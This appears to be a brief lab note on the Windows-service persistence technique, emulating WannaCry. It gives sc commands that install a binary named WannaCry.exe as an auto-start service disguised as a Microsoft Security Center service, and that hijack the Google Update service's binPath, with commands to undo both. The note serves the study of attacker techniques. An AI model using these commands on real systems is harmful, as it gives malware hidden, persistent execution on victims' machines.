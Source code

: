 # Create or Modify System Process: Windows Service

- Code and compile program `Windows Service Application` - WannaCry.exe

- Create Service `(Administrator: Command Prompt)`
  * Create Service follow case attack WannaCry.
  ```powershell
  sc create "mssecsvc2.0" DisplayName= "Microsoft Security Center (2.0) Service" binPath= "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe" start= "auto"
  ```
  * Start, stop, delete service
  ```powershell
  sc start mssecsvc2.0
  ```
  ```powershell
  sc stop mssecsvc2.0
  ```
  ```pơwershell
  sc delete mssecsvc2.0
  ```  
 
- Modify Service `(Administrator: Command Prompt)`
  * Modify google update service.
  ```powershell 
  sc config gupdate binPath= "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe"
  sc start gupdate
  ```
  * Restore default path google update.
  ```powershell 
  sc config gupdate binPath= "\"C:\Program Files (x86)\Google\Update\GoogleUpdate.exe\" /svc" >nul 2>&1 
  ```
